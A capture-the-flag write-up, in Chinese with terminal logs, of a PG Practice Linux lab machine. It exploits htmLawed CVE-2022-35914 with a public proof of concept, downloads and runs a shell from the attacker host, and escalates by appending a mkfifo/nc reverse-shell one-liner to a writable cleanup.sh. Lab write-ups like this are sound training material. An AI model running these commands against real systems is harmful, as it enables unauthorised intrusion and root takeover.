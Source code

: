 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# law
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.182.190 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.182.190:22
Open 192.168.182.190:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: htmLawed (1.2.5) test
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

搜尋[CVE-2022-35914](https://github.com/cosad3s/CVE-2022-35914-poc/tree/main)，改掉裡面的網址，[參考](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)
```python
def exploit(url,cmd,user_agent,check,hook):
    uri = "/index.php"
    headers = {'User-Agent': user_agent}
```

執行可得reverseshell，在`/var/www`可得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://192.168.182.190 -c "wget 192.168.45.229/shell_9001"

┌──(kali㉿kali)-[~/pgplay/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://192.168.182.190 -c "chmod +x shell_9001; ./shell_9001"

python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@law:/var/www$ cat local.txt
e783e3c215ebc338bb56b92255873cfa
```

在`/var/www`中有另一個檔案`cleanup.sh`，跟上一個靶機一樣，塞指令等反彈，在/root可得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9002

www-data@law:/var/www$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.229 9002 >/tmp/f" >> cleanup.sh

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@law:~# cat proof.txt
31981751138fa3f68b092fec218ca0f3
```